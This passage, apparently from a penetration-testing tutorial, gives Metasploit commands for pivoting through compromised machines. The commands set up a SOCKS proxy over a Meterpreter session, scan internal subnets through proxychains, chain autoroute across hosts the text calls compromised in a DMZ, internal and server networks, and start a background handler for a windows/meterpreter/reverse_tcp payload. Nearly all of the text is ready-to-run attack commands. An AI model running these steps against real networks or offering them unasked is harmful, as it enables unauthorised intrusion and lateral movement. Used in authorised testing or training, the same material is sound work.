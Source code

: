 ```bash
exploit

# SOCKS proxy through Meterpreter
# Background meterpreter session first
background

# Start SOCKS proxy module
use auxiliary/server/socks_proxy
set SRVPORT 1080
set VERSION 5
run -j

# Configure external tools to use SOCKS proxy
# Edit /etc/proxychains4.conf:
# socks5 127.0.0.1 1080

# Use tools through SOCKS proxy
proxychains nmap -sS 192.168.1.0/24

# Why Meterpreter pivoting is powerful:
# - Integrated with Metasploit framework
# - Persistent session-based routing
# - Multiple simultaneous connections
# - Built-in SOCKS proxy capabilities
# - Seamless integration with exploitation modules
```

### **Advanced Metasploit Pivoting Techniques**

```bash
# Multi-hop pivoting through Metasploit
# Session 1: Initial compromise (DMZ)
# Session 2: Internal network (through Session 1)
# Session 3: Server network (through Session 2)

# Configure routing for multi-hop scenario
# From Session 1 (DMZ machine)
sessions -i 1
run autoroute -s 192.168.10.0/24  # Internal network

# From Session 2 (Internal machine)
sessions -i 2
run autoroute -s 192.168.20.0/24  # Server network

# Now can access Server network through both hops

# Load balancing across multiple sessions
# Use multiple compromised hosts as pivot points
sessions -i 1
run autoroute -s 192.168.1.0/24

sessions -i 2
run autoroute -s 192.168.1.0/24

# Metasploit will balance traffic across available routes

# Persistent pivoting with handlers
# Set up persistent handlers on pivot points
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0  # Listen on all interfaces
set LPORT 4444
exploit -j  # Run as background job
```